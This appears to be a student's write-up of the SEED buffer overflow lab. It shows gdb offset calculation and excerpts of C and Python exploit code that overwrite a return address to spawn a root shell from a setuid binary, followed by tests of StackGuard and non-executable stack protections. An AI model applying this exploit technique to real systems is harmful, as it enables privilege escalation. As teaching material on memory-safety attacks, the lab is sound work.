 ```yaml
---
title: Buffer Overflow Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```sh
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

## C version
So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```sh
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.

![The root bash](./exploit.png)

## Python version

~~There may be something wrong with the Python code both in the textbook and the instruction's template. I believe that the return address should be modified with `ret + offset of the malicious command` instead of just `ret`. And I verified it in our lab.~~

```sh
$ python3 exploit.py
$ ./stack
#
```

Full code available in [`exploit.py`](./exploit.py). Here shows the critical part:

```{.python}
ret = 0xbfffeb08 # replace 0xAABBCCDD with the correct value
offset = 36 # replace 0 with the correct value
# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret + start).to_bytes(4, byteorder='little')
```




# Task 3

- **Without `setuid(0)`**: start a new bash (under user `seed` and start with `$`)
- **With `setuid(0)`**: start a new bash (under user `root` and start with `#`)

Yes, It still works. Because in the additional shell code, the function `setuid(0)` is called to get root priviledge.

# Task 4

![](./brute_force.png)

# Task 5

## Turn on the StackGuard Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
*** stack smashing detected ***: ./stack terminated
Aborted
```

# Task 6

## Turn on the Non-executable Stack Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
Segmentation fault
```

The buffer overflow does occur. But the non-executable stack protection prevents the crash program from running the shellcode.







